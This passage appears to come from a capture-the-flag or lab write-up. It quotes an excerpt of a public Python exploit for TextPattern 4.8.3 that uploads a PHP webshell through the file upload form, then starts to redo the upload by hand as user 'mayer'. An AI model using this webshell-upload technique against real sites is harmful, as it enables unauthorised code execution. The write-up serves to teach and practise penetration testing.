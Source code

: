 > The exploit seems to be broken.
{: .prompt-danger }

Lets analyze the exploit to see how we can exploit it manually.
```python
#!/usr/bin/python3

# Exploit Title: TextPattern <= 4.8.3 - Authenticated Remote Code Execution via Unrestricted File Upload
# Google Dork: N/A
# Date: 16/10/2020
# Exploit Author: Michele '0blio_' Cisternino
# Vendor Homepage: https://textpattern.com/
# Software Link: https://github.com/textpattern/textpattern
# Version: <= 4.8.3
# Tested on: Kali Linux x64
# CVE: N/A

import sys
import json
import requests
from bs4 import BeautifulSoup as bs4
from time import sleep
import random
import string
import readline

...

# Uploading the webshell
log.warning ("Sending payload..")

try:
    r = s.post (target + "textpattern/index.php?event=file", verify=False, headers=headers, files=multipart_form_data)
    if "Files uploaded" in r.text:
        log.success ("Webshell uploaded successfully as {}".format(randomFilename))
except:
    log.error ("Unexpected error..")
    sys.exit()

sleep(2)

...
```

The key point seems to be to upload a `php` file to gain code execution. So lets login and perform an upload manually.  
Calling the url mentioned in the `python` script (`textpattern/index.php?event=file`) shows an upload form (when we are logged in as `mayer`).  

